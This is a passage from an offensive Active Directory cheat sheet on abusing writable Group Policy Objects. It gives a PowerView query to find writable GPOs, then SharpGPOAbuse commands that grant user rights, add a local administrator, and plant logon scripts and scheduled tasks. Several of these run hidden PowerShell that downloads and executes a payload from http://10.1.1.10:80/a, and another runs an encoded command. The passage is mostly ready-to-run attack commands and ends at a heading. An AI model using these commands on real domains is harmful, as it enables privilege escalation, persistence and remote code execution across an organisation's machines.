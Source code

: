 > Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

:triangular_flag_on_post: GPO Priorization : Organization Unit > Domain > Site > Local

GPO are stored in the DC in `\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`, inside two folders **User** and **Machine**.
If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at `Machine\Preferences\ScheduledTasks`.

:warning: Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`. 

#### Find vulnerable GPO

Look a GPLink where you have the **Write** right.

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

#### Abuse GPO with SharpGPOAbuse

```powershell
# Build and configure SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# Adding User Rights
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Adding a Local Admin
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Configuring a User or Computer Logon Script
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# Configuring a Computer or User Immediate Task
# /!\ Intended to "run once" per GPO refresh, not run once per system
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```

#### Abuse GPO with PowerGPOAbuse
